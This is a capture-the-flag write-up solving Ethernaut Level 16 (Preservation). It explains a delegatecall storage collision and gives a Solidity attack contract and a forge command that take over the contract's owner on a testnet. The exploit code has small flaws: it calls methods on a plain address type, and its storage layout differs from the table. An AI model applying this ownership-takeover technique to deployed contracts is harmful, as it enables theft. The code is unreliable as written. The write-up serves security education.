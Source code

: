<div align="center">
<p align="left">(<a href="https://github.com/Pedrojok01/Ethernaut-Solutions?tab=readme-ov-file#solutions">back</a>)</p>

<img src="../assets/levels/16-preservation.webp" width="600px"/>
<br><br>
<h1><strong>Ethernaut Level 16 - Preservation</strong></h1>

</div>
<br>

Read the article directly on my blog: [Ethernaut Solutions | Level 16 - Telephone](https://blog.pedrojok.com/the-ethernaut-ctf-solutions-16-preservation)

## Table of Contents

- [Table of Contents](#table-of-contents)
- [Goals](#goals)
- [The hack](#the-hack)
- [Solution](#solution)
- [Takeaway](#takeaway)

## Goals

<img src="../assets/requirements/16-preservation-requirements.webp" width="800px"/>

## The hack

Here, we have to become the new contract owner. Make sure you completed the level [6 - Delegation](../solutions/06_Delegation.md) before this one so you understand how `delegatecall` works.

After a quick first look, we can see that no function allows us to override the owner variable directly.
However, we know that a `delegatecall` executes the code of the called contract (`LibraryContract`), but with the storage of the calling contract (`Preservation`).
And since their storage doesn't match, we will be able to override some data and take ownership eventually. But, how?

Let's say we call the `setFirstTime` function with a uint, it will call the `setTime` function of the `LibraryContract` with the same uint via the `delegatecall`. The `setTime` function will set the `storedTime` variable to the uint at storage slot 0. But since the `delegatecall` is using the `Preservation` contract storage, it will override the `timeZone1Library` variable instead.

| Storage slot | Preservation     | LibraryContract | Malicious Contract |
| ------------ | ---------------- | --------------- | ------------------ |
| 0            | timeZone1Library | storedTime      | timeZone1Library   |
| 1            | timeZone2Library |                 | timeZone2Library   |
| 2            | owner            |                 | owner              |
| 3            | storedTime       |                 | storedTime         |

Storage collision happening at slot 0. A simple unit test would have easily revealed this!

Since we can override the `timeZone1Library` variable, we could override it with a malicious contract address containing our own version of the `setTime` function. So we can call the `setFirstTime` once with our malicious contract address to override the library address, then once more to delegate the call to our malicious contract and override the `owner` variable to our address.

## Solution

Here is our malicious contract with a custom `setTime` function, and... a storage identical to the `Preservation` contract to avoid any collision.

```javascript
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.20;

contract Disappearance {
    address public timeZone1Library;
    address public preservation;
    address public owner;

    constructor(address _preservation) {
        preservation = _preservation;
    }

    function attack() public {
        preservation.setFirstTime(uint256(uint160(address(this))));
        preservation.setFirstTime(uint256(uint160(msg.sender)));
        require(preservation.owner() == msg.sender, "Hack failed!");
    }

    function setTime(uint _time) public {
        owner = msg.sender;
    }
}
```

Then run the script with the following command:

```bash
forge script script/16_Preservation.s.sol:PoC --rpc-url sepolia --broadcast --watch
```

## Takeaway

- Libraries should be stateless & use the `library` keyword.
- Avoid using `delegatecall` with user inputs. Or simply avoid using `delegatecall` at all.

<div align="center">
<br>
<h2>🎉 Level completed! 🎉</h2>
</div>
